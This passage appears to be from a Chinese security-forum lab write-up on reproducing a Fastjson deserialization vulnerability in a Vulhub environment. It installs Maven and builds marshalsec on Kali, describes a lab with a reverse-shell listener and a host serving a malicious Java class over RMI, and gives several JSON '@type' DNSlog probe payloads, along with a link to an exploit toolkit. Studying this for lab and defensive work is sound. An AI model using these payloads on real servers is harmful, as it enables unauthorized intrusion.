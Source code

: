 #### maven在kali上的安装

```php
apt-get install maven#安装MVN
mvn –version#查看是否安装成功
```

#### marshalsec安装

```php
git clone https://github.com/mbechler/marshalsec
cd marshalsec
mvn clean package -DskipTests  #编译
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-001cd6e863c948250efa5506d5225e3473cd5002.png)

0x04 漏洞复现
---------

> \[!靶机地址介绍\] Vulhub fastjson  
> 漏洞主机：192.168.200.166
> 
> \[!NOTE\] Kali  
> 接收反弹shell主机Kali 192.168.200.160
> 
> \[!666\] Windows  
> 运行恶意Java类的主机和含有RMI服务主机 win11 192.168.200.159

利用dnslog盲打  
构造以下payload，利用dnslog平台接收

```php
{"zeo":{"@type":"java.net.Inet4Address","val":"dnslog"}}
```

记得改json

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-e7b34379f25188471cdf647698f0310568f2b83f.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-e63e16d0777d477373f0f94c3b8b5f71ae297fad.png)  
1.2.67版本后payload

```php
{"@type":"java.net.Inet4Address","val":"dnslog"}

{"@type":"java.net.Inet6Address","val":"dnslog"}

畸形：{"@type":"java.net.InetSocketAddress"{"address":,"val":"这里是dnslog"}}
```

工具下载

```php
https://github.com/zhzyker/exphub/tree/master/
```
